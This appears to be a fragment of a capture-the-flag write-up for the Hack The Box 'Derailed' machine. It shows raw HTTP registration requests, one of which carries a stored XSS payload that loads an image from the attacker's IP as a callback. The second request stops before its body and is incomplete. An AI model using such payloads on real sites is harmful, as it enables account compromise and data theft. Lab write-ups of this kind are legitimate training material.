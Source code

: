 ```
POST /register HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 290
Origin: http://derailed.htb:3000
Connection: close
Cookie: _simple_rails_session=eazZgc7ylSdtx3h%2BRmRvVhwNFeVpZ%2BwCm16nuBEJVMKF7oo0sjk%2FUuv3fRBHSJ%2FSxKWst0HwcwuM7yncytHx%2B7c5i%2FodVUFPzx%2FtsUJg2lyN%2ByP2GU5EZiwWCLitKS%2FGljnfujTK1Rgzh8l0e6MwBww0v0%2F79zWx4q3ODebevOi1KFGYg2Pa6%2FW8ORpmmgKIVINXLOPN1g8uaRuSYuOj%2FkdjzRQyrFNhbjUpSu3rKJ5kiYHLuhW0zJJ%2BWy0Rs14fJpt0p8oRMbm%2Bn9CWfd59%2BOiJJZK9N%2FAB7kODv84%3D--J7e7sWz1JQYQRWHg--9NYh%2BMJycftSReiHse82qA%3D%3D
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

authenticity_token=DjKj4olPIR_rv2ZXiin2hOy29nilwz7sPjnD-0tlBLIg54DsW9SujKElRaw5O5wiS0d97xB7OcjBF1Wc1Ktwiw&user%5Busername%5D=c0derpwnerc0derpwnerc0derpwnerc0derpwnerc0derpwn<select<style/><img+src='http://10.10.14.93/c0derpwner'>&user%5Bpassword%5D=test&user%5Bpassword_confirmation%5D=test
```


The clipnotes trigger our callback ! 



## RCE ???

true flag inside charcode
```
POST /register HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 1475
Origin: http://derailed.htb:3000
Connection: close
Cookie: _simple_rails_session=Gn9HpOqcRT%2B1pxiY7664ombe2%2FXvp61WA%2FtdBsk4gZUu9ANVZzRyrexj1mrnh2Mly5TKMbxhi4wB4CgBKtKZyMsnccMN1hChkHRgfNRzABML0iF52TXvn1%2BaMpMdEvAS77qOsA0Zfx79viehNMsXh8d3GHs6g33lpTH%2FaVNTmYKN3Szet1BgCcc6ioLb%2FsYCFntNDF1dCVg49Pbq9PaAM82T202GVbPvbzbmADIV7VGZarFAMatIpuhgjzsyV9STeQV9c8VtYt5z7%2BghoBKkkVDZ86vCFGT83vwzpuA%3D--7MXmuIiaCemf3E3c--Cdt9GwbsTjuguJC9MXtw7g%3D%3D
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

```